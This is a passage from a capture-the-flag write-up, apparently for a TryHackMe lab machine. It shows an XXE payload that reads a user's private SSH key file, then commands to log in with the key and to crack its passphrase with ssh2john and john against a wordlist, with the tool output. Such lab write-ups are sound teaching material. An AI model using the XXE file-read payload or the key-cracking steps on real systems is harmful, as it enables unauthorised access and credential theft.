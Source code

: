 And we have the user flag! from here we can also try if barry has .ssh directory and then try reading his private ssh key.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>&xxe;</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could
ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could
ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

And we have barry's private key. Now let's try logging in.

First we need to change the permission for the private key. `chmod 600 <private-key>`

Then try to use it for ssh. `ssh -i <private-key> barry@<machine-ip>`

```bash
┌──(all3n㉿kali)-[~/thm/mustacchio]
└─$ ssh -i sshkey barry@10.10.129.75
Enter passphrase for key 'sshkey':
```

Looks like we need a passphrase for this. We can try using **_ssh2john_** to create a hash and then bruteforce using **_john_**

```bash
┌──(all3n㉿kali)-[~/thm/mustacchio]
└─$ /usr/share/john/ssh2john.py sshkey > sshkey.hash
```

We should now have a **_sshkey.hash_**. Now we can run **_john_** against this file.

```bash
──(all3n㉿kali)-[~/thm/mustacchio]
└─$ john --wordlist=../rockyou.txt sshkey.hash                                                                           1 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<redacted>       (sshkey)     
1g 0:00:00:00 DONE (2022-01-19 22:54) 1.041g/s 3094Kp/s 3094Kc/s 3094KC/s urieljr..urielitho0
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
